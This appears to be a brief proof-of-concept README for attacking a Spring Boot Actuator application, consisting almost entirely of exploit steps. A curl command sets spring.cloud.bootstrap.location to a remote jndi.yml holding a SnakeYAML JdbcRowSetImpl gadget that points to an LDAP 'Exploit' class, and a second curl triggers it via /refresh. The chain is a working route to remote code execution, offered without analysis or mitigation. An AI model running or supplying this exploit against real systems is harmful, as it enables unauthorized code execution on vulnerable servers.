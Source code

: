 ## PoC 
1. `curl -X POST localhost:8080/env -d "spring.cloud.bootstrap.location=http://localhost/jndi.yml"`
jndi.yml内容如下
```
foo: !!com.sun.rowset.JdbcRowSetImpl
  dataSourceName: "ldap://localhost:389/Exploit"
  autoCommit: true
```
2. `curl -X POST localhost:8080/refresh`